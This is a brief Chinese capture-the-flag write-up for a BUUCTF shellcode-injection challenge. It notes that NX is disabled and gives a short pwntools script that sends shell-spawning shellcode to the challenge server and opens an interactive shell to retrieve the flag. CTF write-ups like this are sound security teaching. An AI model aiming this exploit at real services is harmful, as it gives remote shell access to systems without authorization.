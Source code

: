 ### ShellCode 注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b4262dd0e0a243d4006f2e.png)

先 checksec

![](https://pic1.imgdb.cn/item/67b426a2d0e0a243d4006f43.png)

无法反编译为伪代码，分析汇编

![](https://pic1.imgdb.cn/item/67b4265dd0e0a243d4006f33.png)

因为没开 NX ，所以可以直接注入 shellcode 执行任意代码

```python
from pwn import *

p = remote("node5.buuoj.cn",25019)

context(arch = 'amd64', os = 'linux')
shellcode = asm(shellcraft.sh())

p.sendline(shellcode)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b42715d0e0a243d4006f5d.png)